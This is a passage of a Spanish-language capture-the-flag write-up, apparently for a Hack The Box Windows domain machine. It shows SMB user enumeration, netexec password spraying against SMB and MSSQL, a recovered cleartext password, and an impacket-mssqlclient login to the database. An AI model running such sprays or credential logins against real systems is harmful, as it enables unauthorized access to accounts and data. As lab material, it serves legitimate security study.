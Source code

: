 ```
SMB         10.129.1.36     445    DC01             ryan                          2024-06-08 16:55:45 0        
SMB         10.129.1.36     445    DC01             oscar                         2024-06-08 16:56:36 0        
SMB         10.129.1.36     445    DC01             sql_svc                       2024-06-09 07:58:42 0        
SMB         10.129.1.36     445    DC01             rose                          2024-12-25 14:44:54 0        
SMB         10.129.1.36     445    DC01             ca_svc                        2025-07-01 17:32:28 0        
SMB         10.129.1.36     445    DC01             [*] Enumerated 9 local users: SEQUEL
```

Al realizar el spray con `netexec` revela una contraseña valida para el usuario `oscar`:

```
netexec smb sequel.htb -u users -p passwords --continue-on-success | grep -F [+]
```

```
SMB                      10.129.1.36     445    DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
```

Pero parece tener los mismos permisos que el usuario `rose`.

Pruebo el mismo spray para el puerto `1433` que pertenece a una base de datos `mssql` y también son validas:

```
netexec mssql sequel.htb -u users -p passwords --continue-on-success | grep -F
```

```
netexec mssql sequel.htb -u users -p passwords --continue-on-success | grep -F [+]
MSSQL                    10.129.1.36     1433   DC01             [+] sequel.htb\oscar:86LxLBMgEWaKUnBG
```

Conexión a mssql con `mssqlclient`:

```
impacket-mssqlclient -windows-auth sequel.htb/oscar:86LxLBMgEWaKUnBG@dc01.sequel.htb
```

La opción `-windows-auth` es para realizar la autenticacion con usuarios del dominio.

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SEQUEL\oscar  guest@master)>
```
